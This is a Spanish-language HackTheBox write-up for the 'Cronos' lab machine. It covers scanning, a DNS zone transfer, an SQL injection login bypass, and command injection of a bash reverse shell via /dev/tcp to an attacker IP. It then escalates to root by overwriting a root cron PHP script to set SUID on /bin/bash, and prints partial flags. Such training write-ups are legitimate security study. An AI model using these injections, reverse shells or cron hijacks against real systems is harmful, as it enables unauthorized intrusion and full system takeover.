 ```yaml
---
layout: single
author: Bast1ant1c
title: HTB cronos
excerpt: "Vamos a resolver la máquina cronos de HackTheBox. ¡Let's hack!"
date: 2022-12-21
classes: wide
header:
  teaser: /assets/images/cronos/01-inicio.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Writeup
  - Cronos
---
```


<p align="center">
<img src="/assets/images/cronos/02-tarjeta.png">
</p>

¡Hola!
En esta ocasión vamos a resolver de la máquina `cronos` de [HackTheBox](https://hackthebox.com/).
La máquina es nivel “Medium”, sin embargo, el nivel siempre se lo pones tú, al enfrentar estos retos, ¡vamos a ponernos hack!

## PREPARACIÓN

Para iniciar nuestra máquina, vamos a crear con nuestra función [mkhack](https://bast1ant1c.github.io/mkhack/) un directorio de trabajo con el nombre `cronos` y los subdirectorios `recon` junto con `exploit`, con el objetivo de organizar la información que recopilemos en la realización de la máquina.

```bash
mkhack cronos
cd !$/recon
```

## RECONOCIMIENTO  

Accedemos al directorio `recon` e iniciamos nuestra fase de reconocimiento sobre el objetivo por medio de nuestra utilidad [osping](https://bast1ant1c.github.io/osping/) detectando el tipo de sistema operativo basado en el `ttl` _time to live_ de una traza **ICMP**.

```bash
osping 10.10.10.13
 
[*] Detectando sistema operativo ...

[+] 10.10.10.13 ttl=63 >> Linux
```

Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64	Linux
* TTL => 128	Windows

Continuamos con la enumeración de los **65535** puertos en la máquina. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.13 -oG ports | grep open
```
```bash
#Resultados
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar en nuestro objetivo.

```bash
nmap -p22,53,80 -sCV 10.10.10.13 -oG versions
```
```bash
#Resultados
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## RECONOCIMIENTO WEB
 
Iniciamos con el reconocimiento del puerto `80` por medio de la utilidad `whatweb` para identificar software que sea potencialmente vulnerable o de utilidad para nosotros.

```bash
whatweb 10.10.10.13
```
```bash
#Resultados
http://10.10.10.13 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.13], Title[Apache2 Ubuntu Default Page: It works]
```

Realizamos un descubrimiento con `nslookup` para identificar `DNS` asociados a la dirección IP.

```bash
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

Podemos evidenciar el `DNS` `cronos.htb`, por lo que vamos a agregar en el ficheros `/etc/hosts` esta información.

```bash
sudo vim /etc/hosts
#AGREGAR
10.10.10.13     cronos.htb
```

Ya podemos evidenciar un poco más de información en la pagina web, sin embargo vamos a hacer uso de la utilidad `dig`, para identificar subdominios de nuestro objetivo.

```bash
dig @10.10.10.13 cronos.htb axfr
```
```
#RESULTADOS
; <<>> DiG 9.16.15-Debian <<>> @10.10.10.13 cronos.htb axfr
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
```

Vamos a realizar el mismo procedimiento anterior, pero esta vez vamos a agregar el subdominio `admin.cronos.htb`.

```bash
sudo vim /etc/hosts
#AGREGAR
10.10.10.13     cronos.htb admin.cronos.htb
```

## WEB EXPLOIT + INTRUSION

Ahora que tenemos dominios y subdominios, procedemos a investigar un poco y encontramos un portal de acceso en el subdominio `admin.cronos.htb` al cual intentamos realizar un ataque `SQLi` exitoso.

<p align="center">
<img src="/assets/images/cronos/03-page.png">
</p>

Al acceder podemos ver que podemos ejecutar el comando traceroute o ping a un objetivo especifico, por lo que vamos a tomar provecho de esta funcionalidad para ejecutar una reverse shell en bash.

Generamos un listener
```bash
nc -lnvp 4564
```

Ejecutamos la reverse shell en el campo de la pagina web y le damos enter para que ejecute el comando.
```bash
8.8.8.8; bash -c "bash -i >& /dev/tcp/10.10.14.2/4564 0>&1"
```

Reverse shell obtenida
```bash
#OUTPUT
www-data@cronos:/var/www/admin$ whoami
www-data
```

## ESCALADA DE PRIVILEGIOS

Una vez que tenemos acceso a la máquina, realizamos el escalamiento de privilegios, en este caso, revisando las tareas `cron`.

```bash
cat /etc/crobtab
```
```bash
#Resultados
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Como podemos ver en los resultados anteriores, identificamos que `artisan` es una tarea que se ejecuta cada minuto con el usuario root, hay que tener en cuenta que tenemos acceso directamente a la ruta donde se ejecuta este script de php, por lo que simplemente vamos a eliminar el archivo `artisan` y generar uno nuevo habilitando con la funcion `system` el permiso `SUID` de `bash`, para finalmente aprovecharnos de este permiso configurado y obtener una shell de un usuario administrador.

Eliminar el archivo `artisan`
```bash
rm /var/www/laravel/artisan
```

Crear el nuevo archivo `artisan`
```bash
nano /var/www/laravel/artisan
<?php
        system("chmod u+s /bin/bash");
?>
```

Monitoreo del permiso `SUID` de `/bin/bash`
```bash
www-data@cronos:/dev/shm$ watch -n 1 ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash -> SIN SUID
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash -> CON SUID
```

Aprovechando el permiso `SUID`

```bash
www-data@cronos:/dev/shm$ bash -p
```

```bash
#Resultados
bash-4.3# whoami
root
```

## FLAGS

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` y `root` 

```bash
#USER
bash-4.3# find / -name user.txt 2>/dev/null | xargs head -c 10; echo
6394a949f7
```

```bash
#ROOT
bash-4.3# find / -name root.txt 2>/dev/null | xargs head -c 10; echo
4491f4cbdd
```

¡Hemos logrado completar la máquina `cronos` de HackTheBox!

<p align="center">
<img src="/assets/images/cronos/04-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**.
